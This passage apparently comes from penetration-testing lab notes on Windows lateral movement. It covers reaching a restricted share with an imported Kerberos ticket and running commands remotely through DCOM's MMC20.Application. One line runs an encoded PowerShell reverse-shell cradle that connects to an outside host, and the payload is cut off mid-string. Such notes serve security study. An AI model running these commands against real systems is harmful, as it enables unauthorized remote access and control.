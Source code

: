 We see that the `dave` ticket has been successfully imported in our own session for the `jen` user. We can now confirm that we have been granted access to an origianlly restricted shared folder

```
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```

### DCOM (135)

Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

This method allows execution of any shell command as long as the authenticated user is authorized, which is default for local administrators.

We first instantiate a remote MMC 2.0 application

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```

The application object is now saved into the `$dcom` variable, for which we can pass arguments to

```
# Execute calc
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

# Pop a shell (courtesy of ps_cradle_gen.sh)
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

